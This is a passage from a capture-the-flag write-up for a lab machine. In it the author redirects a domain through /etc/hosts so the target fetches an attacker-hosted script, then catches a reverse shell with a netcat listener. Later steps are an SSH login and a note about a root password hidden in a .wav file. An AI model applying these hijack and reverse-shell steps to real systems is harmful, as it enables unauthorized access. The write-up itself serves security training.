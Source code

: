 Adding the entry to `/etc/hosts` to make the server resolve `cherryontop.tld` to our IP address.

```console
notsus@nanocherryctf:~$ echo '10.11.72.22 cherryontop.tld' >> /etc/hosts
```

Now, after waiting a couple of seconds, we can see the server fetching the script from our server.

```console
10.10.95.168 - - [06/Jul/2024 10:03:01] "GET /home/bob-boba/coinflip.sh HTTP/1.1" 200 -
```

And we get a shell as the `bob-boba` user in our listener and can read the third and last part of the Chad Cherry's password.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.95.168] 37698
bash: cannot set terminal process group (2471): Inappropriate ioctl for device
bash: no job control in this shell
bob-boba@nanocherryctf:~$ id
uid=1003(bob-boba) gid=1003(bob-boba) groups=1003(bob-boba)
bob-boba@nanocherryctf:~$ ls
bob-boba@nanocherryctf:~$ wc -c chads-key3.txt
wc -c chads-key3.txt
10 chads-key3.txt
```

## Shell as chad-cherry

Combining all the password parts we discovered, we can use them with SSH to get a shell as `chad-cherry` and can read the Chad Cherry flag.

```console
$ ssh chad-cherry@cherryontop.thm

chad-cherry@nanocherryctf:~$ wc -c chad-flag.txt
22 chad-flag.txt
```

## Shell as root

Looking at the files in `chad-cherry`'s home, we discover a note, with the important part being that we can discover the root password inside the `.wav` file.

```console
chad-cherry@nanocherryctf:~$ cat Hello.txt
...
You can find the password to the root account in the .wav file. Whomever you are, if you're a smart enough hacker, you'll figure it out.
..
```
{: .wrap }

Just like the note mentions, we also have a `.wav` file in the user's home.
